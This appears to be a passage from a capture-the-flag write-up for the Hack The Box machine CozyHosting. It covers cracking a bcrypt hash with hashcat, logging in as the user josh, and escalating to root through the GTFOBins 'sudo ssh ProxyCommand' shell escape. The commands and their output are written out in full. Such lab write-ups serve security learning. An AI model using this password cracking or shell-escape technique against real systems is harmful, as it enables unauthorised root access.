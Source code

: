 ```sh
┌──(pl4stic㉿shattersec)-[~/htb/cozyhosting]
└─$ hashcat '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' /usr/share/wordlists/rockyou.txt.gz -m 3200

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

From simple enumeration after getting our reverse shell, there's one user's folder in the `/home` directory: `josh`. Let's see if our newly found password works with his account:

![User SSH](https://blog.shattersec.com/content/images/20250202145307-Pasted%20image%2020250202015556.png)

And we've got the user flag.

```sh
cat /home/josh/user.txt
```

## Privilege Escalation

### sudo -l

Enumerating common privilege escalation techniques, we notice `josh` has some `sudo` privileges... specifically for `/usr/bin/ssh *`:

```sh
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

### GTFOBins

Looks as if we can use these `sudo` privileges to escalate privileges:

![sudo - GTFOBins](https://blog.shattersec.com/content/images/20250202145338-Pasted%20image%2020250202015817.png)

>[https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo)

```sh
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
# cat /root/root.txt
bc54************************226e
# 
```

## Pwned!